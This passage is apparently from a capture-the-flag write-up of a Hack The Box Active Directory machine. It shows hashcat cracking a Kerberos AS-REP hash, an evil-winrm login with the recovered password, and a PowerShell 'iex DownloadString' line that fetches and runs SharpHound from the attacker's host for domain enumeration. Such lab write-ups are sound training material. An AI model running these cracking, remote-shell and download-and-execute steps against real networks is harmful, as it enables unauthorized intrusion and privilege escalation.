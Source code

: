 ### Cracking hash
Next, we will save the hash in a file and use hashcat to crack the hash. From the output, we have obtained the password as s3rvice.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 18200 hash.txt /home/kali/Desktop/pentest/wordlist/rockyou.txt --force        
hashcat (v6.1.1) starting...
Dictionary cache built:
* Filename..: /home/kali/Desktop/pentest/wordlist/rockyou.txt
* Passwords.: 14344389
* Bytes.....: 139922166
* Keyspace..: 14344382
* Runtime...: 2 secs

$krb5asrep$23$svc-alfresco@HTB:bd3af1c170685f86f4d7b4fea07dc68c$1ee56f34f680c87990e71809b1053440580f651bb6bf5ed097b8a44876c9f4be5a918229167e475d5fe1f446ce66abd9e8d89e842b59ecd37f3b869ea9b69b219c868c66609a2a5e62f4f28bad87394d423a12b9ba3ca9f922a77e604ef930c81e3790f19bdd3aad96a875451b4037eb06c255550b70035ae8d95a0c178fc88e3f5b43fe16d0b8e4ba5e4091ddcb781f0af65590209410f6d5c651c3cb12dfc6d2b3269bf1033cb46346c694cf78efbd8f3818ffb3a1151836cd570ae316cfa87e0ae3fa67c4e593a6f4852929578e0cd56c9b62e98b1f8816a174dc2bd066d2:s3rvice
```

### Obtaining user flag

Since we have obtained the password for the svc-alfresco, we will now try to use evil-winrm to try to get a shell. Fortunately, we are able to obtain a shell and from there, we are able to get the user flag.

```
┌──(kali㉿kali)-[~/Desktop/evil-winrm]
└─$ bundle exec evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
<Redacted user flag>
```
### Enumeration for privilege escalation
To start off, we will first need to do an enumeration of the current shell. To do so, we will use sharphound to collect data for bloodhound. First, we will host SharpHound.ps1 on our local machine and we will then transfer it to the victim's machine.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex (New-Object Net.WebClient).DownloadString('http://10.10.16.8:4000/SharpHound.ps1')
```

Next, we will then use BloodHound to collect data from the domain. This will then create a zip folder of all the data collected by BloodHound.ps1.

